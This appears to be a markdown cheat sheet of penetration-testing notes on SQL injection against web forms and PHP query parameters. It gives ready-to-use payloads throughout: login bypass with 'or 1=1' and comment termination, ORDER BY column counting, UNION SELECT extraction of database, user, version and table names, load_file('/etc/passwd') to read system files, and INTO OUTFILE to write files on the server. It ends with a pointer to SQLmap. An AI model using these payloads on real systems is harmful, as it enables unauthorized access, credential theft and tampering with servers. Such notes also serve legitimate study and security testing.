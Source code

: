 Obligatory XKCD comic on SQL injection attacks:

[![Bobby Tables]({static img/exploits_of_a_mom.png})](https://xkcd.com/327/)

To connect to a mySQL database `mysql -u [username] -h [IP of server]`

1. `show databases;`
2. `use [database];`
3. `show tables;`

### Discovering SQL Injections with Form Submissions (POST)

1. Whenever you see an input box try to break it, try using AND, ORDER BY or '.
2. Look for subtle changes.
3. Enter correct info then ' then use AND, use a # as a comment to terminate early.

An example of this is a user/password input box(s) may potentially be making a SQL query like `SELECT * from accounts where user='$USER_INPUT_BOX_VALUE' and password='$PASSWORD_INPUT_BOX_VALUE'`. We could run an injection on this query by setting our password as `123456' AND 1=1#`. This would hopefully execute and confirm that we could inject any SQL query into the webserver database (such as show all passwords).

### Bypassing Logins via Injections

Another neat use would be to inject the SQL query such that the query ends up as `SELECT * from accounts where user='admin' and password='wrong_password' or 1=1`, this would potentially log us in as admin without knowing the password at all as the second case in the and statement will be True if the query evaluates 1 to be equal to 1.

### Discovering SQL Injections in Data Retrieval (GET)

1. Always try to inject things in the php scripts (in the address bar it will look like index.php&username=xxxx&password=xxxxx)
2. Use ORDER BY after a field eg. `index.php&username=xxxx' ORDER BY 1 #&password=xxxxx` Ensure to use the URL encoding for symbols ie. # = %23
3. Order By column 100000 will return an error keep doing order by 1,2,3,4,5 and when you get an error you know the db has that amount of columns
4. Use a union
5. eg. `index.php&username=xxxx' union 1,2,3,4,5 #&password=xxxxx`
6. Swap the numbers with other stuff ie. `1,database(),user(),version(),5`
7. `union select 1, table_name, null, null,5 from information_schema.tables`

### Read and Writing Files on the Server via SQL.

We can also use SQL injections to read/write files that located on the target computer as well.

#### Reading

` union select null, load_file('/etc/passwd'), null, null,null `

#### Writing

`union select null, 'example example', null, null,null into outfile '[path]'`

### Use SQLmap to do the Above and More
